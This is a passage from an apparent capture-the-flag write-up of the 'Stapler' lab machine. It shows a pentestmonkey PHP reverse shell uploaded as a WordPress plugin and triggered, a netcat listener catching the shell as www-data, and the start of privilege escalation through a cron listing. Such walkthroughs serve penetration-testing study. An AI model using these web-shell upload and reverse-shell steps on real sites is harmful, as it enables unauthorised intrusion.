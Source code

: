 Direct to Plugins ➡️ Add New ➡️ Upload Plugin .

Download pentest monkey PHP reverse shell and make changes accordingly and select the file to upload and Click Install Now.

![img](/assets/images/CTF/Proving_Grounds/Stapler/upload.png)

Once it's uploaded direct to https://192.168.208.148:12380/blogblog/wp-content/uploads/ and trigger the reverse shell.

```sh
naveenj@hackerspace:|01:34|~/proving_grounds/Stapler$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.193] from (UNKNOWN) [192.168.208.148] 51462
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 athlon i686 GNU/Linux
 06:34:44 up 32 min,  0 users,  load average: 0.00, 0.01, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1408): Inappropriate ioctl for device
bash: no job control in this shell
www-data@red:/$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

### Cronjobs

Check all cronjobs in the machine.

```sh
www-data@red:/$ ls -lsaht /etc/cron.*
ls -lsaht /etc/cron.*
/etc/cron.d:
total 32K
 12K drwxr-xr-x 100 root root  12K Jun  9  2021 ..
4.0K drwxr-xr-x   2 root root 4.0K Jun  3  2016 .
4.0K -rw-r--r--   1 root root   56 Jun  3  2016 logrotate
4.0K -rw-r--r--   1 root root  102 Jun  3  2016 .placeholder
4.0K -rw-r--r--   1 root root  670 Mar  1  2016 php
4.0K -rw-r--r--   1 root root  589 Jul 16  2014 mdadm
```
